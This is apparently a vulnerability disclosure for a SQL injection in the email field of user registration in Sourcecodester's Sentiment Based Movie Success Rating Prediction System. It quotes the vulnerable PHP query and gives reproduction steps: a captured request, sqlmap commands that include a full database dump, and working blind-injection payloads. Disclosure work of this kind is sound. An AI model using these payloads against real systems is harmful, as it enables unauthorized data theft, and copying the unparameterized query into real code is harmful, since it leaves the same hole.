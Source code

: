 # SQL Injection vulnerability was discovered in Sourcecodester's Sentiment Based Movie Success Rating Prediction System  (user registration)

Official Website: https://www.sourcecodester.com/php/15104/sentiment-based-movie-rating-system-using-phpoop-free-source-code.html

Version: 1.0
Related Code file: /msrps/classes/Users.php

---
## CVE-2024-XXXX
```
$chk = $this->conn->query("SELECT * FROM `client_list` where email ='{$email}' ".($id>0? " and id!= '{$id}' " : ""))->num_rows;
```
The email variable is directly inserted into the SQL query without any escaping or parameterization. An attacker could inject malicious SQL code by manipulating the email field. in (line number 135 of Users.php)

Injection parameter: email


Backend Verification for SQLi
---
```
127.0.0.1:46134 [500]: POST /msrps/classes/Users.php?f=save_client - Uncaught mysqli_sql_exception: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'vunerableparam@mail.com'' at line 1 in /home/kali/Downloads/msrps/classes/Users.php:135                                                                                                                     
Stack trace:                                                                                                                                                
#0 /home/kali/Downloads/msrps/classes/Users.php(135): mysqli->query()                                                                                       
#1 /home/kali/Downloads/msrps/classes/Users.php(261): Users->save_client()                                                                                  
#2 {main}                                                                                                                                                   
  thrown in /home/kali/Downloads/msrps/classes/Users.php on line 135   
  ```
---
Step to Reproduce:
---

1. Go to login page and click on [Create a New Account]
2. Fill the form and intercept the POST request in burp

![burp-image](https://github.com/gurudattch/CVEs/blob/main/assets/4.png)

---

4. Copy the **POST** request to notepad and save it.

![notepad](https://github.com/gurudattch/CVEs/blob/main/assets/5.png)

---

6. Now Run **sqlmap** on this request 

`sqlmap -r register_req.txt -p email`

__dump database;__

`sqlmap -r register_req.txt -p email --dump`

```
POST parameter 'email' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 433 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=&firstname=fname&middlename=midname&lastname=lnmae&gender=Male&email=mytest@mail.com' AND 4940=4940 AND 'oqjL'='oqjL&password=password

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=&firstname=fname&middlename=midname&lastname=lnmae&gender=Male&email=mytest@mail.com' AND (SELECT 7178 FROM (SELECT(SLEEP(5)))MFQU) AND 'aOrZ'='aOrZ&password=password
---

```
